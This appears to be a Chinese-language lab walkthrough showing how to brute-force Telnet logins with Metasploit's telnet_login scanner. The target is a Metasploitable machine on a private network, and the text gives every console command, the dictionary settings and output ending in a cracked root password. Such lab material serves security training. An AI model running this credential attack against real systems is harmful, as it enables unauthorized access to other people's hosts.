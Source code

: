 
# 破解TELNET密码

## 一 、启动msfconsole，查看可用的telnet攻击模块
攻击机：kali：192.168.1.149<br />目标机：Metasploitable：192.168.1.18

```
root@kali222:~# msfconsole
msf5 > search telnet
```
<br />![](https://img-blog.csdnimg.cn/2020060615582855.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=VoOCG&originHeight=449&originWidth=1355&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 二、在这里我们使用auxiliary/scanner/telnet/telnet_login模块
![](https://img-blog.csdnimg.cn/20200606160021859.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=MFPu8&originHeight=251&originWidth=861&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 三、应用攻击模块并查看模块需要的配置
```
msf5 > use auxiliary/scanner/telnet/telnet_login
msf5 auxiliary(scanner/telnet/telnet_login) > show options
```

![](https://img-blog.csdnimg.cn/20200606160222373.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=QRfdJ&originHeight=439&originWidth=1145&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 四、利用提前设置好的用户和密码字典进行破解
```
msf5 auxiliary(scanner/telnet/telnet_login) > set rhosts 192.168.1.18
msf5 auxiliary(scanner/telnet/telnet_login) > set user_file  /user.txt
msf5 auxiliary(scanner/telnet/telnet_login) > set pass_file  /pass.txt
```
<br />![](https://img-blog.csdnimg.cn/20200606160347323.png#crop=0&crop=0&crop=1&crop=1&id=F2Lje&originHeight=117&originWidth=749&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 五、开始启动爆破
```
msf5 auxiliary(scanner/telnet/telnet_login) > exploit
```
<br />![](https://img-blog.csdnimg.cn/20200606160445121.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=K0GJM&originHeight=275&originWidth=839&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```

msf5 auxiliary(scanner/telnet/telnet_login) > exploit 

[!] 192.168.1.18:23       - No active DB -- Credential data will not be saved!
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: zs:1 (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: zs:password (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: zs:123 (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: zs:123456 (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: zs: (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: admin:1 (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: admin:password (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: admin:123 (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: admin:123456 (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: admin: (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: administrator:1 (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: administrator:password (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: administrator:123 (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: administrator:123456 (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: administrator: (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: :1 (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: :password (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: :123 (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: :123456 (Incorrect: )
[-] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN FAILED: : (Incorrect: )
[+] 192.168.1.18:23       - 192.168.1.18:23 - LOGIN Successful:root :123456 
[*] 192.168.1.18:23       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
最后可以看到破解成功，用户名为：root，密码为：123456
